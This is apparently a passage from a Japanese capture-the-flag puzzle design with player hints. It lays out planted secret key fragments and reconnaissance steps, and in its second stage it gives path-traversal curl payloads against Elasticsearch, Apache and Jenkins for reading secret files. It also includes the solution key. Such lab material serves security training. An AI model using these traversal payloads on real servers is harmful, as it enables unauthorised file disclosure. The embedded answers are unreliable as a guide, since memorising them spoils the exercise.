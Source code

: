 ```yaml
    ipam:
      config:
        - subnet: 172.20.0.0/16
```

### 秘密ファイルの配置
```bash
# ディレクトリ構造
secrets/
├── es/
│   └── protocol_seven.key          # "ELASTICSEARCH_KEY_PART: a7b3"
├── rails/
│   └── protocol_seven.rb           # "RAILS_KEY_PART: c9d1"
├── jenkins/
│   └── hint.xml                    # "JENKINS_KEY_PART: e5f7"
└── apache/
    └── protocol_seven.txt          # "FINAL_KEY: a7b3c9d1e5f7"
```

## プレイヤー向けヒント

### ステージ1: 偵察
```bash
# サービスのバージョン確認
curl -X GET "http://puzzle.aegis.com:9201"
curl -X GET "http://puzzle.aegis.com:8081/login"
curl -I "http://puzzle.aegis.com:8082"

# CVEデータベースで脆弱性を検索
# 例: "Elasticsearch 1.5.2 file disclosure CVE"
```

### ステージ2: 脆弱性の特定
```bash
# 各サービスの既知の脆弱性をテスト
# Elasticsearch
curl "http://puzzle.aegis.com:9201/_plugin/head/../../../../../var/secrets/protocol_seven.key"

# Apache
curl "http://puzzle.aegis.com:8082/cgi-bin/.%2e/.%2e/.%2e/.%2e/opt/secrets/protocol_seven.txt"

# Jenkins
curl "http://puzzle.aegis.com:8081/securityRealm/user/admin/descriptorByName/../../../../secrets/hint.xml"
```

### ステージ3: パズルの解決
```python
# 収集したキーの断片を結合
keys = [
    "ELASTICSEARCH_KEY_PART: a7b3",
    "RAILS_KEY_PART: c9d1",
    "JENKINS_KEY_PART: e5f7"
]

final_key = "".join([k.split(": ")[1] for k in keys])
print(f"Protocol Seven Activation Key: {final_key}")
# Output: Protocol Seven Activation Key: a7b3c9d1e5f7
```
